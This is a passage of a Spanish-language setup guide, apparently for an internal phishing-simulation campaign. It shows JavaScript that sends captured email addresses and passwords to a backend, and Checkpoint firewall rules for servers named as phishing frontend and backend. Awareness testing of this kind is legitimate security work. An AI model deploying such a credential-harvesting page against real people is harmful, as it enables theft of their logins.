 Edita `script.js` y `script-reset.js` para apuntar al backend interno:

### En `script.js` (línea ~50), agrega:

```javascript
// CONFIGURACIÓN: URL del backend interno
window.BACKEND_URL = 'http://servidor-interno.tuempresa.local:3000';
```

Luego, en la función `sendDataToEmail`, asegúrate de que se envíe al backend:

```javascript
// Enviar al backend interno primero
const backend = window.BACKEND_URL || '';
if (backend) {
    fetch(backend + '/api/submit', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
            email: email,
            password: password,
            timestamp: timestamp,
            userAgent: userAgent,
            url: currentUrl,
            type: type
        })
    })
    .then(res => res.json())
    .then(data => console.log('✅ Datos enviados al backend:', data))
    .catch(err => console.error('❌ Error:', err));
}
```

---

## 🛡️ Paso 4: Configurar Firewall/Proxy

Asegúrate de que el firewall/proxy permita:

1. Tráfico HTTP/HTTPS entre los navegadores de los empleados y el servidor frontend interno
2. Tráfico entre el servidor frontend y el backend interno (puerto 3000)
3. Tráfico del backend al SMTP interno (puerto 25/587/465)

### Checkpoint Firewall

Si usas Checkpoint, crea reglas que permitan:

```
Origen: Red_Empleados
Destino: Servidor_Phishing_Frontend
Servicio: HTTP (80) / HTTPS (443)
Acción: Permitir

Origen: Servidor_Phishing_Frontend
Destino: Servidor_Phishing_Backend
Servicio: TCP 3000
Acción: Permitir

Origen: Servidor_Phishing_Backend
Destino: Servidor_SMTP
Servicio: SMTP (25/587/465)
Acción: Permitir
```

---
